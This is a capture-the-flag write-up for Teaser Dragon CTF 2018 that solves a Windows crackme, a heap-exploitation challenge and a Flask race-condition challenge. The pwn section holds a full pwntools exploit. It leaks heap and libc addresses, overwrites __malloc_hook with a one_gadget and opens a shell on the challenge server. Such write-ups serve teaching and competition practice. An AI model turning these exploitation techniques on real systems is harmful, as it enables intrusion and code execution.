


# 2018-09-29-Teaser-Dragon-CTF #

[CTFTime link](https://ctftime.org/event/648) | [Website](https://ctf.dragonsector.pl/)

---

## Challenges ##

 - [ ] 219 Cryptography / AES-128-TSB
 - [x] [176 RE / Brutal Oldskull](#176-re--brutal-oldskull)
 - [ ] 391 RE / Chains of Trust
 - [ ] 432 Cryptography / cryptovm
 - [x] [400 Pwning / Fast Storage](#400-pwning--fast-storage)
 - [ ] 330 Web / Nodepad
 - [ ] 343 Pwning / Production
 - [x] 78 Miscellaneous / Sanity check
 - [x] [278 Web / 3NTERPRISE solution](#278-web--3nterprise-solution)
 
---

## 176 RE / Brutal Oldskull ##

**Description**

> The '90s called and wanted their crackme back. It's basically a walk in a park.

**Files provided**

 - [`oldskull.exe`](files/oldskull.exe)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The program is written in classical win32 API, which is covered in the book "Windows Programming", and I will not detail this programming part.

The program asked us to input 4 16-bit hex number, and they will then be processed in this way:

```c
  a1 = (char *)trans_input(::a1, 0x4C8Eu, inputs[0]);
  if ( a1 )
  {
    v17 = (char *)trans_input(a1, 0x4C6Eu, inputs[1]);
    if ( v17 )
    {
      v16 = (char *)trans_input(v17, 0x4C4Eu, inputs[2]);
      if ( v16 )
      {
        v15 = trans_input(v16, 0x4C2Eu, inputs[3]);
        if ( v15 )
        {
            //we need to go here!
        }
      }
    }
  }
```

The `trans_input` function, `0x004016E4`

```c
void *__cdecl trans_input(char *a1, size_t size, unsigned int a3)
{
  unsigned __int16 input; // [esp+1Ch] [ebp-3Ch]
  char hash[40]; // [esp+20h] [ebp-38h]
  char *ret; // [esp+48h] [ebp-10h]
  size_t i; // [esp+4Ch] [ebp-Ch]

  input = a3;
  ret = (char *)malloc(size);
  memset(ret, 0, size);
  for ( i = 0; i < size; ++i )
  {
    ret[i] = (a1[i] ^ input) - HIBYTE(input);
    input *= 0x62F3;
  }//decode the data using the key given
  memset(hash, 0, sizeof(hash));
  md5(ret, size - 32, hash);//found this is a md5 by debugging
    //result will be putted as hex string
  if ( !memcmp(hash, &ret[size - 32], 0x20u) )
    return ret;//last 0x20 bytes must be md5 hashes of previous bytes
  free(ret);
  return 0;
}
```

Initially, I would like to bruteforce the md5. However, what we need to do is to test all `0x10000` possibilities, and print the value if the last `0x20` bytes are hex string. This is already enough to get the value.

The code is quite ugly, since this is a CTF instead of a software engineering design.

```c
#include <stdio.h>
char data[19616];
void getdata()
{
	FILE* f = fopen("oldskull.exe", "rb");
	fseek(f, 0x4020, 0);
	fread(data,sizeof(data),1,f);
	fclose(f);
}

char* trans_input(char *a1, size_t size, unsigned int a3)
{
	unsigned short input; // [esp+1Ch] [ebp-3Ch]
	char *ret; // [esp+48h] [ebp-10h]
	size_t i; // [esp+4Ch] [ebp-Ch]

	input = a3;
	ret = (char *)malloc(size);
	memset(ret, 0, size);
	for ( i = 0; i < size; ++i )
	{
		ret[i] = (a1[i] ^ input) - (input >> 8);
		input *= 0x62F3;
	}
	return ret;
}

int ismd5(char* buf)
{
	for (int i = 0; i < 0x20; ++i)
	{
		char c = buf[i];
		if (!(c >= '0' && c <= '9' || c >= 'a' && c <= 'f'))
		{
			return 0;
		}
	}
	return 1;
}

int main(int argc, char const *argv[])
{
	getdata();
	char* ret;
	for (unsigned int i = 0; i < 0x10000; ++i)
	{
		ret = trans_input(data, 0x4C8E, i);
		if (ismd5(ret + 0x4C8E - 0x20))
		{
			printf("%x\n", i);
			memcpy(data, ret, 0x4c8E);
		}
		free(ret);
	}
	for (unsigned int i = 0; i < 0x10000; ++i)
	{
		ret = trans_input(data, 0x4C8E - 0x20, i);
		if (ismd5(ret + 0x4C8E - 0x20 * 2))
		{
			printf("%x\n", i);
			memcpy(data, ret, 0x4c8E);
		}
		free(ret);
	}
	for (unsigned int i = 0; i < 0x10000; ++i)
	{
		ret = trans_input(data, 0x4C8E - 0x20 * 2, i);
		if (ismd5(ret + 0x4C8E - 0x20 * 3))
		{
			printf("%x\n", i);
			memcpy(data, ret, 0x4c8E);
		}
		free(ret);
	}
	for (unsigned int i = 0; i < 0x10000; ++i)
	{
		ret = trans_input(data, 0x4C8E - 0x20 * 3, i);
		if (ismd5(ret + 0x4C8E - 0x20 * 4))
		{
			printf("%x\n", i);
			memcpy(data, ret, 0x4c8E);
		}
		free(ret);
	}
	return 0;
}
```

After we obtain the 4 magic numbers, put them into the program, and we found that we can already enter into the branch we want.

Many windows APIs are involved, what they do is writing the result data obtained above into temporary directory, and execute it with the flag input as the first argument. Thus, find the executable in the temporary directory, open it with IDA.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *v4; // [esp+18h] [ebp-8h]
  unsigned int i; // [esp+1Ch] [ebp-4h]

  sub_402B90();
  if ( argc != 2 )
    return 1;
  v4 = argv[1];
  if ( strlen(argv[1]) != 20 )
    return 2;
  for ( i = 0; i <= 0x13; ++i )
  {
    if ( v4[i] != (byte_404008[i] ^ 0x8F) )
      return 3;
  }
  return 0;
}
```

Easy xor decryption! we can get the flag easily. 

`''.join((map(lambda x : chr(ord(x) ^ 0x8f), get_bytes(0x404008,20))))`

## 400 Pwning / Fast Storage ##

**Description**

> Fast(tm) string => binary blob storage
> 
> nc faststorage.hackable.software 1337

**Files provided**

 - [`faststorage`](files/faststorage)
 - [`libc.so.6`](files/libc.so.6)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The program is something like a hash table, and my teammate told me that this is actually a [bloom filter](https://en.wikipedia.org/wiki/Bloom_filter) after the contest. 

The program provides 3 operation: add, print and edit.

### implementation

When doing `add` operation, function `0xCB6` is called to insert the element into the hash table.

```c
__int64 __fastcall insert_hashtable(unsigned __int8 *name, void *value)
{
  int v2; // ST1C_4
  char v3; // ST18_1
  char v4; // ST14_1
  int v5; // ST1C_4

  v2 = tea_hash(name);
  v3 = xor_hash(name);
  v4 = addbits_hash(name);
  v5 = abs(v2) % 62;                            // can be negative
  insert_idx(v5, (__int64)name, (__int64)value);
  return (__int64)set_hash_2bits(v5, v3, v4);
}
//The 'name' is the pointer to the heap which serves as the key
//The low 48 bits of 'value' is the pointer to the heap, which serves as the value
//The high 16 bits of 'value' is the length of the buffer

_QWORD *__fastcall insert_idx(int a1, unsigned __int8 *a2, void *a3)
{
  _QWORD *result; // rax
  void *v4; // [rsp+8h] [rbp-28h]
  ht_ent *v5; // [rsp+28h] [rbp-8h]

  v4 = a3;
  v5 = (ht_ent *)malloc(0x18uLL);
  if ( !v5 )
    err_exit();
  v5->name = a2;
  v5->value = v4;
  v5->next = linked_lists[a1];
  result = linked_lists;
  linked_lists[a1] = v5;
  return result;
}
//the hash from tea_hash is used as the index of linked_list
unsigned int *__fastcall set_hash_2bits(int a1, char a2, char a3)
{
  unsigned int *result; // rax

  result = bits;
  bits[a1] |= (1 << a2) | (1 << a3);
  return result;
}
//the hashes from xor and addbits, which is less than 32, 
//is used as 2 flag bits recored at corresponding index
```

The problem is `abs` function, which will return a negative number, `INT_MIN=0x80000000`, if the argument passed is `INT_MIN`. Think about two's complement representation. Therefore, `abs(INT_MIN) % 62 == -2`.

If you look at the memory layout, 

```assembly
.bss:0000000000202040 ; unsigned int bits[64]
.bss:0000000000202040 bits            dd 40h dup(?)           ; DATA XREF: set_hash_2bits+D↑o
.bss:0000000000202040                                         ; set_hash_2bits+3D↑o ...
.bss:0000000000202140 ; _QWORD linked_lists[62]
.bss:0000000000202140 linked_lists    dq 3Eh dup(?)           ; DATA XREF: insert_idx+4A↑o
.bss:0000000000202140                                         ; insert_idx+62↑o ...
```

it is obvious that `linked_list[-2]` will be at the memory layout of `bits[60]` and `bits[61]`, which we can manipulate by setting some bits using index `60` and `61`. And if we can let it point to somewhere we can manipulate, we can fake a hash table entry and achieve arbitrary memory write by `edit` operation.

### leak heap address using side-channel

However, we need to leak the `libc` address, but there is no free operation, so the only possible way is to shrink the top chunk to create an unsorted bin. Fortunately, there is no null termination for `value` field, so we can leak `libc` address easily.

The tricky part is to leak the heap address, so that we can fake a hash table entry to edit the size of top chunk. My approach is using side-channel attack. Let's look at the `0xE3A` function

```c
signed __int64 __fastcall find(__int64 a1, __int64 a2)
{
  int v2; // eax
  unsigned __int64 *v4; // [rsp+0h] [rbp-120h]
  unsigned __int64 *v5; // [rsp+8h] [rbp-118h]
  unsigned __int8 buf[256]; // [rsp+10h] [rbp-110h]
  __int64 *v7; // [rsp+110h] [rbp-10h]
  ssize_t v8; // [rsp+118h] [rbp-8h]

  memset(buf, 0, sizeof(buf));
  v8 = 0LL;
  v7 = 0LL;
  printf("Name: ", a2, buf, a2, a1);
  v2 = fileno(stdin);
  v8 = read(v2, buf, 0x100uLL);
  if ( v8 <= 0 )
    err_exit();
  buf[255] = 0;
  v7 = find_from_hashtable(buf);
  if ( !v7 )
    return 0LL;
  *v4 = (unsigned __int64)v7 >> 48;
  *v5 = (unsigned __int64)v7 & 0xFFFFFFFFFFFFLL;
  return 1LL;
}
__int64 *__fastcall find_from_hashtable(unsigned __int8 *a1)
{
  int v1; // ST24_4
  char v2; // ST20_1
  char v3; // al
  __int64 v5; // [rsp+24h] [rbp-Ch]
  ht_ent *i; // [rsp+28h] [rbp-8h]

  v1 = tea_hash(a1);
  v2 = xor_hash(a1);
  v3 = addbits_hash(a1);
  v5 = (unsigned int)(abs(v1) % 62);
  if ( !(unsigned int)check_hash_2bits(v5, v2, v3) )
    return 0LL;//check the 2 bits first, return 0 if not found
  for ( i = linked_lists[(signed int)v5]; i && strcmp((const char *)i->name, (const char *)a1); i = (ht_ent *)i->next )
    ;//if found, traverse the linked list and return the value
  return (__int64 *)i->value;
    //but if not found in hash table, this will cause null pointer access
}
```

Since we can let `bits[60:62]` equal to the heap address, we can traverse all bits, and do the bit testing. If `"No such entry!"` is shown, it is suggested that the corresponding bit is 0, otherwise it will be 1.

It will be easier to find the `name` such that `tea_hash` equal to `60` or `61`, and their other 2 hashes are same, so we can test only 1 bit at the time and do the traversing easier.

The C code to find such name:

```c
int pos[64] = {0};
int main(int argc, char const *argv[])
{
	//for (int j = 0; j < 64; ++j)
	{
		for (size_t i = 0; i < 0x100000000; ++i)
		{
			unsigned char* tmp = (unsigned char*)(&i);
			tmp[4] = 0xff;
			if (abs(tea_hash(tmp)) % 62 == 60 && xor_hash(tmp) == addbits_hash(tmp))
			{
				if (pos[xor_hash(tmp)] == 0)
					printf("%lx %u\n", i, xor_hash(tmp));
				pos[xor_hash(tmp)] = 1;
			}
			tmp[4] = 0;
		}
	}
	return 0;
}
```

`tmp[4] = 0xff;` is used to get all values ranging from 0 to 32, use this to get one part and comment this to get another part.

And the result is 

```python
xor_add_60 = {
6:0xd2c,
10:0x10ede,
11:0x1396f,
12:0x177ad,
8:0x18563,
7:0x3962,
13:0x33b7b,
14:0x3b77b,
5:0x58021,
16:0xbafef,
17:0xbffdb,
15:0xdcbef,
19:0x3d7fef,
18:0x4d77ff,
21:0xfd7fef,
20:0xff3bfd,
22:0x1f6fdff,
23:0x3fefefe,
26:0xff0105bfff,
24:0xff01071eff,
25:0xff01073fdf,
27:0xff011fdfdd,
28:0xff011fdffb,
29:0xff017fcfbf,
31:0xff03f77dff,
30:0xff03f77fcf
}

xor_add_61 = {7:0x00094f,
11:0x001e7f,
10:0x00279f,
6:0x00720a,
8:0x009167,
4:0x00c204,
9:0x00ee86,
12:0x023b7b,
13:0x025eef,
15:0x06a7ff,
14:0x0adbaf,
16:0x0bfbfa,
5:0x4080a2,
0:0xff0ffb7fde,
3:0xff17fffffe,
1:0xff1def7ffe,
2:0xff1fbfffde}
```

Because there will be null pointer access if the entry is not found, we need to add the entries first.

### exploit

```python
from pwn import *

g_local=True
context.log_level='debug'

ONE_GADGET_OFF = 0x4526a
UNSORTED_OFF = 0x3c4b78
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if g_local:
	sh = process('./faststorage')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("faststorage.hackable.software", 1337)

def add(name, size, value):
	sh.send("1\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Size: ")
	sh.send(str(size) + "\n")
	sh.recvuntil("Value: ")
	sh.send(value)
	sh.recvuntil("> ")

def printe(name):
	sh.send("2\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Value: ")
	ret = sh.recvuntil("\n")
	sh.recvuntil("> ")
	return ret[:len(ret)-1]

def edit(name, value):
	sh.send("3\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Value: ")
	sh.send(value)
	sh.recvuntil("> ")

def printsc(name):
	sh.send("2\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	ret = sh.recvuntil("> ")
	return ret.find("No such entry!") == -1


int_min_hash = p64(0x911261db)
#give -2, way to brute force this is quite easy.


for i in xrange(12,32):
	add(p64(xor_add_60[i]), 0x10, "no null pointer")
for i in xrange(0,16):
	add(p64(xor_add_61[i]), 0x10, "no null pointer")

add(int_min_hash, 0x10, "-2 idx access")

heap_addr = 0
for i in xrange(12,32):
	if printsc(p64(xor_add_60[i])):
		heap_addr |= (1 << i)

for i in xrange(0,16):
	if printsc(p64(xor_add_61[i])):
		heap_addr |= (1 << (i + 32))

print hex(heap_addr)
```

Now, we have the heap address, then we need to shrink the top chunk and leak `libc`, which is easier

```python
neg2_name_off = 0xdb0
top_off = 0x1090

#will allocate at df0
fakeent = p64(0)
fakeent += p64(heap_addr + neg2_name_off)
fakeent += p64((heap_addr + top_off + 8) | (8 << 0x30))
add("fakeent\x00", 0x200, fakeent)
add(p64(xor_add_60[5]), 0x10, "dd0->df0")
edit(int_min_hash, p64(0xf71))

#now topchunk
# 0x555555758090 PREV_INUSE {
#   size = 3953 = 0xf71
for i in xrange(0,4):
	add("consume\x00", 0x400, "topchunk")

#get a 0x221 unsorted bin
add("leaklibc\x00", 0x100, "leakleak")
leak = printe("leaklibc\x00")
libc_addr = u64(leak[8:0x10]) - UNSORTED_OFF
print hex(libc_addr)
```

finally, rewrite malloc hook to `one_gadget` to get the shell.

```python
add("consume", 0x80, "whole unsorted bin")
add(int_min_hash, 0x10, "-2 idx access")

fakeent = p64(0)
fakeent += p64(heap_addr + neg2_name_off)
fakeent += p64((libc_addr + e.symbols["__malloc_hook"]) | (8 << 0x30))
#0x21460 off for this
add(p64(xor_add_60[7]), 0x100, cyclic(96) + fakeent)
#460->4e0

edit(int_min_hash, p64(libc_addr + ONE_GADGET_OFF))
#__malloc_hook = one_gadget

sh.interactive()
```

## 278 Web / 3NTERPRISE solution ##

**Description**

> Dear all
> 
> Welcome to our new enterprise solution.
> You can leave your business notes here.
> Data is safe - cause we use strong encryption !
> It is soooo safe, that even I am using this system.
> You even can audit the code [here](files/webapp.py)
> Plz DO NOT hax this - cause it is impossible !1111
> 
> Regards
> 
> Martin, the Webmaster 
> 
> URL: http://solution.hackable.software:8080

**Files provided**

 - [`webapp.py`](files/webapp.py)

**Solution** (by [Aurel300](https://github.com/Aurel300))

On our first visit to the webpage, we can only login or register. We can find out that the server is running Flask, although this is immediately obvious from the source code given.

The registration is normal enough:



The login is slightly unusual though, it emulates a 2FA system:



(No screenshot for the second form or anything else after, because the challenge is not working anymore. The form asks for the password and a 2FA token that is not actually implemented.)

Once we login, we can add notes, list all of our notes, and show specific notes. Whenever we look at a note, the browser first shows it encrypted, then it obtains our encryption key via AJAX, then proceeds to animate XOR-decryption of the note.

Even without looking at the source code, we can spot the first vulnerability: consecutive, non-encrypted IDs for notes. If we change the URL to `/note/show/0`, we get to see a note added by `admin`:

    07D8B68CDB92A687DFC74217C9D7F47E84540A3C97BA3D2B8B5B3E1C110A4C54F09392
    ADC910461BF61AA4AC6D921591556D1AAFCB8495144C27748369FC101847D7C2A9508F
    6534FFB7BCF859FD3ED8863611400F9ECB56064C20EDF0B6F6B1BF1CBB522A91F0C9B2

The browser still animates XOR-decryption, but it uses our own key instead of `admin`'s, so the decrypted data is just garbage.

The note is 105 bytes, and our own key is only 20 bytes - perhaps this cipher could be broken? Well, after some playing around it is clear that the key is not 20 bytes, and is at least 100 bytes long. The simplest possible explanation is that the admin note is actually encrypted using proper [OTP](https://en.wikipedia.org/wiki/One-time_pad), unlike our own notes.

Now let's finally have a look at the source code. Most of it is basic Flask stuff. The `@loginzone` decorator is applied consistently, and it explains why `/note/show/0` was accessible to us - it simply checks IF whe are logged in, not WHO we are.

The one strange thing is in the bit that seemed unusual before - namely the two-step authentication process:

```python
# first part of authentication
@app.route('/login/user', methods=['POST'])
def do_login_user_post():
  username = get_required_params("POST", ['login'])['login']
  backend.cache_save(
    sid=flask.session.sid,
    value=backend.get_key_for_user(username)
  )
  state = backend.check_user_state(username)
  if state > 0:
    add_msg("user has {} state code ;/ contact backend admin ... ".format(state))
    return do_render()
  flask.session[K_LOGGED_IN] = False
  flask.session[K_AUTH_USER] = username
  return do_302("/login/auth")

#second part of authentication
@app.route("/login/auth", methods=['POST'])
def do_auth_post():
  flask.session[K_LOGGED_IN] = False
  username = flask.session.get(K_AUTH_USER)
  params = get_required_params("POST", ["password", "token"])
  hashed = backend.password_hash(params['password'])
  record = sql_session.query(model.Users).filter_by(
    username=username,
    password=hashed,
  ).first()
  if record is None:
    add_msg("Fail to login. Bad user or password :-( ", style="warning")
    return do_render()
  # well .. not implemented yet
  if 1 == 0 and not backend.check_token(username, token=1):
    add_msg("Fail to verify 2FA !")
    return do_render()
  flask.session[K_LOGGED_IN] = True
  flask.session[K_LOGGED_USER] = record.username
  return do_302("/home/")
```

The `backend.cache_save(...)` call is odd. Even before we are properly logged in, the cache contains the encryption key for that username, if it exists. (Also note that the challenge is probably called `3NTERPRISE` because caching becomes relevant with large-scale projects.) We cannot simply call the first step and get the encryption key, however, since the `getkey` API endpoint does not rely on the cache, not to mention that it requires a full login (`@loginzone`).

```python
@app.route("/note/getkey")
@loginzone
def do_note_getkey():
  return flask.jsonify(dict(
    key=backend.get_key_for_user(flask.session.get(K_AUTH_USER))
  ))
```

But there is a place where the cached key is used:

```python
@app.route("/note/add", methods=['POST'])
@loginzone
def do_note_add_post():
  text = get_required_params("POST", ["text"])["text"]
  key = backend.cache_load(flask.session.sid)
  if key is None:
    raise WebException("Cached key")
  text = backend.xor_1337_encrypt(
    data=text,
    key=key,
  )
  note = model.Notes(
    username=flask.session[K_LOGGED_USER],
    message=backend.hex_encode(text),
  )
  sql_session.add(note)
  sql_session.commit()
  add_msg("Done !")
  return do_render()
```

So whichever key is in the cache (which may not be the one for our username!) will be used to encrypt the notes we submit. Since the encryption method is XOR, submitting a known plaintext will allow us to recover an unknown key.

But how to ensure a different key is cached?

The reason caching can be problematic is because there is a lot of things that can go wrong. The wrong user can be served personal details of another. Old information may be shown to the user, misinforming them. In the case of this challenge, the problem is time-based: there exists a race condition between the note adding (using the cached key) and the first step of the authentication (setting the cached key).

The first step of authentication is supposed to log out the user, which would prevent us from submitting notes and using the cached key. But before it logs us out, it puts the encryption key into the cached, and then does a state check of some sort, presumably a slow database operation.

So the plan is:

 1. Login completely as our own user (`/login/user`, then `/login/auth`)
 2. Do the first step of authentication as `admin` (`/login/user` again)
 3. Create a known-plaintext note (`/note/add`)

The key is that 3 needs to happen a very short time after 2.

([Full exploit here](scripts/3nterprise.sh))

During the CTF, there were some issues with the server being very slow (10+ seconds for a page load), so I didn't even try to exploit this. After some maintenance downtime, the service was slightly faster, though a page could still take up to 5 seconds to load, so I was somewhat sceptical. Much to my surprise, the exploit worked on the first try - there was a note encrypted with the admin key in the list of notes for our user. Then simply XORing that note with `aaa`... (which was the known plaintext) revealed the `admin` key, and XORing the `admin` key with the `admin` note revealed:

    Hi. I wish U luck. Only I can posses flag: DrgnS{L0l!_U_h4z_bR4ak_that_5upr_w33b4pp!Gratz!} ... he he he 

`DrgnS{L0l!_U_h4z_bR4ak_that_5upr_w33b4pp!Gratz!}`
